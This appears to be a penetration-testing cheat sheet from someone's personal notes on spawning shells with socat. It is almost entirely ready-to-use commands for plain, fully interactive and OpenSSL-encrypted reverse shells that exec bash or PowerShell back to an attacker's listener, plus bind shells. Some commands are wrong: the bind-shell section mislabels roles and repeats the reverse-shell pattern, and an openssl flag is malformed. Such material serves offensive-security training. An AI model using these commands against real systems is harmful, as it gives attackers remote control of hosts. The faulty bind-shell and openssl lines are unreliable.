 SOcket CAT is a tool that facilitates data transfer between two bidirectional data streams

* Can do all of the same things as Netcat
* Socat shells are usually more stable than netcat shells

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/Whitespace.png)

# Spawning Shells

## Spawning Reverse Shells

**Basic reverse shell**
```Bash
# Spawn a listener on the attacking host
socat TCP-L:<port_number> -

# Connect to the listener from the target host using Bash 
socat TCP:<lhost>:<lport> EXEC:"bash -li"

# Connect to the listener from the target host using Windows
socat TCP:<lhost>:<lport> EXEC:powershell.exe,pipes
```

**Fully stable Linux tty reverse shell**
```Bash
# Spawn a listener on the attacking host
socat TCP-L:<port_number> FILE:'tty',raw,echo=0

# Connect to the listener from the target host using Bash 
socat TCP:<lhost>:<lport> EXEC:"bash -li"[,pty,stderr,sigint,setsid,sane]

# Connect to the listener from the target host using Windows
socat TCP:<lhost>:<lport> EXEC:powershell.exe,pipes

#The target must be a Linux machine and have socat installed, which you can do by uploading a precompiled socat binary with the following command: socat TCP:<lhost>:<lport> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
# 'pty' allocates a pseudoterminal on the target
# 'stderr' makes sure that any error messages get shown in the shell
# 'sigint' passes any CTRL + C commands through into the sub-process, allowing us to kill commands inside the shell
# 'setsid' creates the process in a new session
# 'sane' stabilises the terminal, attempting to normalise it
```

Encrypted reverse shell
```Bash
# Generate a certificate on the attacking host in order to use encrypted shells
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt

# Merge the two created files into a single .pem file
cat shell.key shell.crt > shell.pem

# Set up the reverse shell listener on the attacking machine
socat OPENSSL-LISTEN:<port_number>,cert=shell.pem,verify=0 - [FILE:'tty',raw,echo=0] 
#verify=0 tells the connection to not bother trying to validate that our certificate has been properly signed by a recognized CA

# Connect back to the listener from the target machine
socat OPENSSL:<lhost>:<rport>,verify=0 EXEC:/bin/bash
```

## Spawning Bind Shells

```Bash
# Spawn a listener on the target host
socat TCP-L:<port_number> -

# Connect to the listener from the attacking host using Bash 
socat TCP:<lhost>:<lport> EXEC:"bash -li"

# Connect to the listener from the attacking host using Windows
socat TCP:<lhost>:<lport> EXEC:powershell.exe,pipes
```

Encrypted bind shell
```Bash
# Generate a certificate on the target host in order to use encrypted shells
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt

# Merge the two created files into a single .pem file
cat shell.key shell.crt > shell.pem

# Set up the reverse shell listener on the target machine
socat OPENSSL-LISTEN:<port_number>,cert=shell.pem,verify=0 -
#verify=0 tells the connection to not bother trying to validate that our certificate has been properly signed by a recognized CA

# Connect back to the listener from the attacking machine
socat OPENSSL:<lhost>:<lport>,verify=0 EXEC:/bin/bash
```
